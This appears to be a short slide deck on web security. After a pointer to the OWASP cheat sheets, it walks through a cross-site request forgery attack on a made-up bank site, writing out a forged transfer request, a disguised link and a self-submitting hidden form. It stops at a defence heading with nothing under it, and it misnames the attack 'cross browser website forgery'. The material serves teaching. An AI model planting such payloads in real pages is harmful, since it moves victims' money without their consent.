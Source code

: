 Check is valid URL format before using?

---

## Further Reading

This website is very comprehensive!

https://cheatsheetseries.owasp.org/

(not just for XSS attacks)

---

## Cross browser website forgery: A HOW TO GUIDE

![](https://media.giphy.com/media/Y48GNO7DnvGsU/giphy.gif)

---

![](https://i.imgur.com/3g9GLb3.png)

---

## STEP ONE

``GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1``


---

## STEP TWO (GET)

``<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>``


---

## STEP TWO (POST)

```<body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body> 
 ```

---

## How do i defend against it? 
